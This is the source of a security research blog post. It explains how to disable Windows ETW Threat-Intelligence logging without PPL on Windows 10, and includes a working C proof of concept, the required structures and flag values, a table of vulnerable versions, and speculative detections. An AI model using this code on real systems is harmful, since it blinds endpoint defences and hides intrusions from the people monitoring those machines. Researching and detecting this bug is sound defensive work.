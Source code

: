 ```yaml
---
layout: post
title: "ETW-ByeBye: Disabling ETW-TI Without PPL"
date: 2024-04-24 12:15:00 +1000
categories: DefenseEvasion Windows
---
```


# Intro

Back in October of 2023, RiskInsight published a blog post that caught my attention. The post explained [A universal EDR bypass built in Windows 10](https://www.riskinsight-wavestone.com/en/2023/10/a-universal-edr-bypass-built-in-windows-10/), detailed a "bug" that allows a user to disable logging of certain ETW-TI events for a given process from user mode **without** the expected PPL requirement.

As RiskInsight already explained this in detail, I will not be explaining background on how ETW-TI works under the hood. I will simply be building upon their blog post, with the aim of showing how I went from their post to a functional POC. 

# Contents

1. [Intro](#intro)
2. [Exploitation Requirements](#exploitation-requirements)  
3. [The Bug](#the-bug) 
4. [Building A POC](#building-a-poc) 
5. [Potential Detections](#potential-detections) 
6. [References](#references) 

# Exploitation Requirements

In order to exploit this bug, you require either `SeDebug` or `SeTcb` privileges to be enabled, and be on one of the following vulnerable Windows versions: 

| .                                        |   Win10 1507 -> 1703  |   Win10 1709 -> 1803  |   Win10 1809 -> 22H2  |   Win11 21H2 -> 22H2  |
| ---------------------------------------- | --------------------- | --------------------- | --------------------- | --------------------- |
| Read virtual memory operation            | N/A                   | Vulnerable            | Vulnerable            | Patched               |
| Write virtual memory operation           | N/A                   | Vulnerable            | Vulnerable            | Patched               |
| Process suspension / resuming operations | N/A                   | N/A                   | Vulnerable            | Patched               |
| Thread suspension / resuming operations  | N/A                   | N/A                   | Vulnerable            | Patched               |

Thanks to RiskInsight for this table: [Source](https://www.riskinsight-wavestone.com/en/2023/10/a-universal-edr-bypass-built-in-windows-10/)

# The Bug

As ETW-TI can raise a large number of events, it is enabled on a per-process basis. To do so, you make a call to `NtSetInformationProcess`, specifying either `ProcessEnableReadWriteVmLogging` or  `ProcessEnableLogging` as the `ProcessInformationClass`.

The intention is that alongside the permissions mentioned prior, in order to disable ETW-TI event logging, the process should be a protected process `PROTECTED_ANTIMALWARE_LIGHT`, and thus signed by Microsoft. However, this check is missing on the aforementioned windows versions, and so only the token permission checks are in place. Again, RiskInsight went into a lot of detail about this, and so if you want to find out more, feel free to give [their post](https://www.riskinsight-wavestone.com/en/2023/10/a-universal-edr-bypass-built-in-windows-10/) a read.

Taking a look at a cleaned up binary ninja decompilation, we see the token permissions checks (and can confirm that there are no PPL checks in place):

![image of binary ninja decompilation of NtSetInformationProcess](/assets/img/posts/disabling-etw-ti-without-ppl/binary-ninja-decompilation.png)

# Building A POC

The first step to building a functional proof-of-concept was figuring out the related structures/enum definitions. Thanks to various public resources, namely [ntdoc.m417z.com](https://ntdoc.m417z.com) and [jsecurity101.medium.com/uncovering-windows-events](https://jsecurity101.medium.com/uncovering-windows-events-b4b9db7eac54) learning about the required structures and enums was easy.

Regarding the `PROCESS_INFO_CLASS` enum, I referenced [ntdoc.m417z.com/processinfoclass](https://ntdoc.m417z.com/processinfoclass), and to figure out what to pass as our `ProcessInformation`, I referenced [ntdoc.m417z.com/process_readwritevm_logging_information](https://ntdoc.m417z.com/process_readwritevm_logging_information) and [ntdoc.m417z.com/process_logging_information](https://ntdoc.m417z.com/process_logging_information). This resulted in having the following definitions:

**PROCESS_INFO_CLASS** 
```c
typedef enum _PROCESSINFOCLASS
{
    // [SNIPPED FOR BREVITY]
    ProcessEnableReadWriteVmLogging = 0x57, // qs: PROCESS_READWRITEVM_LOGGING_INFORMATION
    // [SNIPPED FOR BREVITY]
    ProcessEnableLogging = 0x60, // qs: PROCESS_LOGGING_INFORMATION
} PROCESSINFOCLASS;
```

**PROCESS_READWRITEVM_LOGGING_INFORMATION** 
```c
typedef struct _PROCESS_READWRITEVM_LOGGING_INFORMATION
{
    UCHAR Flags;
    UCHAR EnableReadVmLogging;
    UCHAR EnableWriteVmLogging;
    UCHAR Unused = 6;
} PROCESS_READWRITEVM_LOGGING_INFORMATION, *PPROCESS_READWRITEVM_LOGGING_INFORMATION;
```

**PROCESS_LOGGING_INFORMATION** 
```c
typedef struct _PROCESS_LOGGING_INFORMATION
{
    ULONG Flags;
    ULONG EnableReadVmLogging;
    ULONG EnableWriteVmLogging;
    ULONG EnableProcessSuspendResumeLogging;
    ULONG EnableThreadSuspendResumeLogging;
    //ULONG EnableLocalExecProtectVmLogging;  // New in Win11
    //ULONG EnableRemoteExecProtectVmLogging; // New in Win11
    ULONG Reserved = 26;
} PROCESS_LOGGING_INFORMATION, * PPROCESS_LOGGING_INFORMATION;
```

With all this ready, I just had to figure out what values to set, I'll save you the trouble and just let you know that `Flags` should be set to `0xf` in all cases.

From there, just make a simple call to `NtSetInformationProcess` as follows, there's nothing more to it :)

```c
int main(int argc, char** argv, char** envp)
{
    HMODULE Ntdll = GetModuleHandleA("ntdll.dll");
    typeNtSetInformationProcess NtSetInformationProcess = (typeNtSetInformationProcess)GetProcAddress(Ntdll, "NtSetInformationProcess");

    // Prepare for NtSetInformationProcess
    PROCESS_LOGGING_INFORMATION ProcessLoggingInformation = { 0 };
    ProcessLoggingInformation.Flags = (ULONG)0xf;
    ProcessLoggingInformation.EnableReadVmLogging = 1;
    ProcessLoggingInformation.EnableWriteVmLogging = 1;
    ProcessLoggingInformation.EnableProcessSuspendResumeLogging = 1;
    ProcessLoggingInformation.EnableThreadSuspendResumeLogging = 1;
    ProcessLoggingInformation.Reserved = 26;

    NTSTATUS Status = NtSetInformationProcess(
        (HANDLE)-1,
        (ULONG)ProcessEnableLogging,
        &ProcessLoggingInformation,
        sizeof(_PROCESS_LOGGING_INFORMATION));

    if (NT_SUCCESS(Status))
    {
        printf("[+] Successfully disabled the following ETW-Ti events\n"
               " - ReadVmLogging\n"
               " - WriteVmLogging\n"
               " - ProcessSuspendResumeLogging\n"
               " - ThreadSuspendResumeLogging\n");
    }
    else
    {
        printf("[!] Error, status 0x%08X\n", Status);
    }

	return 0;
}
```

# Potential Detections / Preventions

Important to note that regarding how practical these are, they are purely speculation on my part.

1. Hooking NtSetInformationProcess in user mode
    - This can very likely be bypassed albeit still a line of defense.
2. Walking the `KPROCESS` list and checking if ETW-TI has been disabled for a non-expected process
    - Not sure how viable this is due to potentially having to set a spinlock on the list, but would be a very powerful integrity check if doable.
3. Lack of ETW-TI telemetry
    - Checking if a process is raising no events of a common event type e.g. `ReadVmLogging`. (Credit to [@bakki](https://twitter.com/shubakki))
4. Update to Windows 11
    - As this bug no longer exists on Windows 11, if migration is possible that I will always recommend this over alternatives. 

# References

- [A universal EDR bypass built in Windows 10](https://www.riskinsight-wavestone.com/en/2023/10/a-universal-edr-bypass-built-in-windows-10/) - RiskInsight's blog post of which inspired me to build this POC. 
- [SealighterTI](https://github.com/pathtofile/SealighterTI) - A tool to test the Thread-Intelligence ETW Provider 
- [Tweet - First Seen Usage?](https://x.com/SBousseaden/status/1745022464965349628)
- [NtDoc](https://ntdoc.m417z.com/)
